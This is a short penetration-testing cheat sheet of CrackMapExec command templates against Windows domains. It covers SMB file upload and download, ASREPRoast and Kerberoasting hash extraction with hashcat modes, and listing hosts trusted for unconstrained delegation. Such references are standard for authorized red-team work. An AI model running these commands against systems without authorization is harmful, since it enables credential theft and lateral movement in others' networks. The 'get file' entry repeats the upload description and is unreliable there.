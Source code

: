 ## cme - put file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## cme - get file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## cme - ASREPRoast enum without authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - ASREPRoast enum with authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - Kerberoasting
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## cme - Unconstrained delegation
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```
